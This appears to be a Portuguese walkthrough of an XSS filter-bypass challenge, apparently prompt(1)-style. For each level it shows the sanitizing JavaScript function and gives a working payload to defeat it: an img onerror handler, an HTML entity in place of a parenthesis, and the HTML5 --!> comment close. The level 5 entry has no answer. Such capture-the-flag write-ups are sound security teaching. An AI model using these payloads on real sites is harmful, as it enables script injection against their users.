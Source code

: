 Respota: ```<img src=1 onerror='prompt(1)'```

Usamos o elemento <img> com atributo onerror, que não é capturado pela regex de remoção de tags.

## level 2
```javascript
 Text Viewer
function escape(input) {
    //                      v-- frowny face
    input = input.replace(/[=(]/g, '');

    // ok seriously, disallows equal signs and open parenthesis
    return input;
}        
```
filtro: remoção de = e (.

Resposta: ```<svg><script>prompt&#40;1)</script>```

Para contornar o filtro que remove `=` e `()`, usamos a entidade HTML ```&#40;``` no lugar do parêntese e evitamos o sinal de igual.

## level 3
```javascript
function escape(input) {
    // filter potential comment end delimiters
    input = input.replace(/->/g, '_');

    // comment the input to avoid script execution
    return '<!-- ' + input + ' -->';
}            
```
Filtro: substitui -> por _, impedindo o término de comentário -->.

Resposta: ```--!><svg/onload=prompt(1)```

Para contornar o filtro (que remove ->), usamos o fechamento alternativo de comentário --!> definido no HTML5, fechamos o comentário e em seguida executamos o vetor SVG.


## level 5
```javascript
function escape(input) {
    // apply strict filter rules of level 0
    // filter ">" and event handlers
    input = input.replace(/>|on.+?=|focus/gi, '_');

    return '<input value="' + input + '" type="text">';
}                   
```
Filtro: remove >, qualquer atributo on...= e a palavra focus.
